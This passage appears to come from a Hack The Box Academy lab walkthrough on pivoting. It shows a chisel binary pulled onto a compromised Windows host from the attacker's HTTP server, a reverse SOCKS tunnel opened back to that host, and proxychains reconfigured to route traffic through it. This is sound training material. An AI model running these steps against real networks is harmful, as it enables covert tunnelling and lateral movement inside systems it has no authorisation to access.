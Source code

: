 Code: powershell

```powershell
iwr -uri http://PWNIP:8000/chisel.exe -o chisel.exe
```

```powershell-session
PS C:\Users\helen> iwr -uri http://10.10.15.174:8000/chisel.exe -o chisel.exe
```

Students will return to their workstations, they can terminate the Python HTTP server, and they will proceed to start `chisel` in `server` mode:

Code: shell

```shell
./chisel_1.9.1_linux_amd64 server --reverse 
```

```shell-session
┌─[✗]─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ ./chisel_1.9.1_linux_amd64 server --reverse

2024/07/10 05:31:27 server: Reverse tunnelling enabled
2024/07/10 05:31:27 server: Fingerprint KR7B7NniaZ35DIiLDhAO153+Iur8NfJ5BP1KNtyIarI=
2024/07/10 05:31:27 server: Listening on http://0.0.0.0:8080
```

Subsequently, students will return to the RDP session to establish the dynamic port-forwarding using `chisel` in `client` mode:

Code: powershell

```powershell
.\chisel.exe client PWNIP:8080 R:socks
```

```powershell-session
PS C:\Users\helen> .\chisel.exe client 10.10.15.174:8080 R:socks

2024/07/10 05:33:14 client: Connecting to ws://10.10.15.174:8080
2024/07/10 05:33:15 client: Connected (Latency 8.9474ms)
```

Students will return to their workstations, open a new tab, and modify their `proxychains.conf` configurational file:

Code: shell

```shell
sudo sh -c 'sed -i s/socks4/socks5/g /etc/proxychains.conf'
sudo sh -c 'sed -i s/9050/1080/g /etc/proxychains.conf'
```

```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-tj22pb36f6]─[~]
└──╼ [★]$ sudo sh -c 'sed -i s/socks4/socks5/g /etc/proxychains.conf'

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-tj22pb36f6]─[~]
└──╼ [★]$ sudo sh -c 'sed -i s/9050/1080/g /etc/proxychains.conf'
```
